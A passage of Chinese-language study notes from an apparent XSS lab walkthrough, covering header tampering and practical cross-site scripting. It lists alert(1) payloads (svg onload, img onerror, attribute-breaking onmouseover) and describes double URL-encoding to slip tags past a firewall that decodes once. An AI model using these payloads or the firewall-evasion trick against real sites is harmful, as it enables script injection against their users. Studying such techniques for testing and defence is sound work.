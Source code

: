 发现有referer的http头，可能需要抓包：

## level12

修改user-agent

## level13

修改cookie



```
<svg%0aonload=alert(1)> 
<svg onload=alert(1)> 

onload直接加载
```





# XSS实战

```
<img src="xxx" onerror=alert("xss")>

<input type='text' name='words' id='words' value='123 '/><img ' class='form-control' placeholder='' /> 

'/><img
被防火墙拦截

'/><img 一次编码
防火墙判断
交给一个程序判断 一次解码
search-index-123'/><img-1.html 当作一个文件来访问访问不到，404

'/><img 二次编码
防火墙判断
交给一个程序判断 一次解码
search-index-[一次编码的内容]-1.html 进行搜索
防火墙进行解码，判断是否有img script ....，
有就替换为空搜索结果

<input type='text' name='words' id='words' value=' 123 ' onmouseover='alert(1) '/>

123' onmouseover='alert(1)

编码两次

123'/><script>alert(1)</script><img
首先把<script>前后标签都urlencode一次，整体encode两次

```
